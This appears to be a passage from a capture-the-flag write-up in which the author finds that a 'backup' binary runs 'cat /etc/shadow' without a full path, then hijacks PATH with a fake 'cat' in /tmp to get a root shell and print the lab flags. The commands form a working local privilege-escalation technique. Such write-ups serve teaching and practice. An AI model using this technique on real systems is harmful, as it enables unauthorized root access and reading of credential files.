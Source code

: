 Hmm? It looks like it’s trying to print `/etc/shadow`. Let’s run `strings` on the program.

```bash
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4
...
```

It’s trying to do `cat /etc/shadow`. Let’s check where is the `cat` command located at.

```bash
mitsos@LazyClown:~$ which cat
/bin/cat
```

The vulnerability here is that the `cat` command is called without it’s full path. Therefore, we can trick the system into calling our own version of `cat`! Firstly, let’s add `/tmp` to the `$PATH` environment so that it will be the first directory to be checked.

```bash
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$ export PATH=/tmp:$PATH
mitsos@LazyClown:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now, we can create a malicious `cat` file to spawn a new shell!

```bash
mitsos@LazyClown:~$ cd /tmp
mitsos@LazyClown:/tmp$ vi cat
mitsos@LazyClown:/tmp$ chmod +x cat
mitsos@LazyClown:/tmp$ cat cat 
#!/bin/sh

/bin/sh
```

Finally, we can execute the `backup` binary file to gain root access!

```bash
mitsos@LazyClown:/tmp$ cd /home/mitsos/
mitsos@LazyClown:~$ ./backup 
# whoami
root
# cat /home/mitsos/user.txt
# PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
# cat /home/mitsos/user.txt
ffedead33b2299f99ac8cbc2dd4eaf3c
# cat /root/root.txt
489332b5fb06c89a9618f082b1b107a2
```
